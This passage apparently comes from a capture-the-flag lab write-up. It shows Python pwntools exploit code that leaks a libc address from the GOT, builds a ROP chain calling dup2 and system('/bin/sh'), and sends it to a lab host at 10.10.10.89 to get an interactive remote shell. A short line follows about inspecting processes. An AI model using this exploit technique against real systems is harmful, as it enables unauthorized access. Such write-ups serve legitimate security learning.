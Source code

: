 ```python

		payload += urlencode(p64(self.pop_rdi))
		payload += urlencode(p64(self.fd))         # fd we want to dup to
		payload += urlencode(p64(dup2_libc))       # function we want to call

		# we can not also dup the stderr to our fd, so we will have to de without

		binsh_str = self.binsh_str_offset + libc_base
		system_libc = self.system_offset + libc_base

		# call system with argument '/bin/sh'
		payload += urlencode(p64(self.pop_rdi))
		payload += urlencode(p64(binsh_str))       # fd we want to dup to
		payload += urlencode(p64(system_libc))     # function we want to call

		context.log_level = 'warn'

		retry = True
		while retry:
			p = connect(self.ip, self.port)
			p.sendline(self.command + ' ' + payload)
			p.sendline('')

			output = p.recvuntil(self.file_not_found, timeout=self.timeout)

			if self.file_not_found in output:
				context.log_level = 'info'
				log.success('Got shell!')
				context.log_level = 'warn'
				p.interactive()
				retry = False

			p.close()

	def run(self):
		log.info('Start leaking address.')
		write_libc = self.__leak(self.write_got)
		libc_base = write_libc - self.write_offset

		log.success('Found libc base: {0}'.format(hex(libc_base)))
		log.info('Starting exploit.')
		self.__exploit(libc_base)


Exploit('10.10.10.89', 1111).run()
```

## User
Now that we have shell on the machine, let's look at the processes that are running.
